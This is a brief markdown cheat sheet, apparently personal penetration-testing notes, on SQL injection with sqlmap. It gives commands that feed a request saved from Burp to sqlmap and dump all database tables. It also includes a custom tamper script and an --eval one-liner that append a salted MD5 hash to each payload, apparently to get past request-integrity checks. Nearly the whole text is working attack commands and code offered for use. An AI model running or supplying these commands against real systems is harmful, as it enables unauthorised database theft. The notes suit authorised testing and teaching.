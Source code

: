 # sqlmap
#sqlmap #sqli #sqlinjection

1. "Export" request from Burp (copy-paste) to `request`
2. `sqlmap -r request`
3. Profit.

## Tamper scripts
``sqlmap -u "<url>" --tamper=<name-of-temper-file> -p payload --skip-urlencode``

```
#!/usr/bin/env python

import re
import hashlib
from urllib.parse import quote_plus

from lib.core.enums import PRIORITY

__priority__ = PRIORITY.HIGHEST

def dependencies():
    pass

def tamper(payload, **kwargs):
    salt="<salt>"
    str2hash = salt + payload
    result = hashlib.md5(str2hash.encode()).hexdigest()
    
    retVal = quote_plus(payload) + "&h=" + result 
    return retVal
```

## Fetch all tables without sys tables
`sqlmap -u http://localhost:8081/\?id\=1 --dump-all --exclude-sysdbs`

## Eval
Same but faster can be achieved with
`sqlmap -r req.req --eval="import hashlib ; h=hashlib.md5(('<salt>'+order).encode('utf-8')).hexdigest()"  --batch --tables --threads=10`


